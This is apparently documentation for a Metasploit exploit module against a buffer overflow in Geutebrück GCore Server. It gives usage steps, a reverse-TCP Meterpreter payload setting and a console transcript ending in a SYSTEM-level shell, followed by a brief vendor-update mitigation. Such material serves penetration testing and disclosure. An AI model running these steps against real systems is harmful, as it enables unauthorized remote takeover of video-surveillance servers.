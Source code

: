 ## Vulnerable Application

  Geutebrück GCore Server 1.3.8.42, 1.4.2.37 are vulnerable to a buffer overflow exploitation. 
  Since this application is started with system privileges this allows a system remote code execution.

## Verification Steps

  1. Install Windows as basic OS (Tested with Win2012R2, Windows 7)
  2. Install the Geutebrück GCore server
  3. Verify that http://<your target ip>:13003/statistics/runningmoduleslist.xml available is.
  4. Start msfconsole
  5. Do: ```use [exploit/windows/http/geutebrueck_gcore_x64_rce_bo]```
  6. Do: ```set rhost <your target ip>```
  7. Do: ```set rport 13003```
  8. Do: ```set payload windows/x64/meterpreter/reverse_tcp```
  9. Do: ```exploit```
  10. You should get a shell as NT/SYSTEM.

## Scenarios

### Geutebrueck GCore 1.4.2.37

```
msf exploit(geutebrueck_gcore_x64_rce_bo) > show options

Module options (exploit/windows/http/geutebrueck_gcore_x64_rce_bo):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.1.10      yes       The target address
   RPORT    13003             yes       The target port



   Payload options (windows/x64/meterpreter/reverse_tcp):

      Name      Current Setting  Required  Description
      ----      ---------------  --------  -----------
      EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
      LHOST     192.168.1.11     yes       The listen address
      LPORT     4444             yes       The listen port


   Exploit target:

      Id  Name
      --  ----
      0   Automatic Targeting

msf exploit(geutebrueck_gcore_x64_rce_bo) > exploit
    [*] Started reverse TCP handler on 192.168.1.11:4444
    [*] 192.168.1.10:13003 - Trying to fingerprint server with http://192.168.1.10:13003/statistics/runningmoduleslist.xml...
    [*] 192.168.1.10:13003 - Vulnerable version detected: GCore 1.4.2.37, Windows x64 (Win7, Win8/8.1, Win2012R2,...)
    [*] 192.168.1.10:13003 - Preparing ROP chain for target 1.4.2.37!
    [*] 192.168.1.10:13003 - Crafting Exploit...
    [*] 192.168.1.10:13003 - Exploit ready for sending...
    [*] 192.168.1.10:13003 - Exploit sent! [*] Sending stage (1188415 bytes) to
    [*] Meterpreter session 1 opened ( :4444 -> 49963) at 2017-11-03 13:14:51 +0200
    [*] 192.168.1.10:13003 - Closing socket.
    meterpreter > getsystem
    ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
    meterpreter > getuid Server username:
    NT-AUTORITÄT\SYSTEM
    meterpreter >
```

## Mitigation

Geutebrück released a new version and an update for the affected product which should be installed to fix the described vulnerabilities.
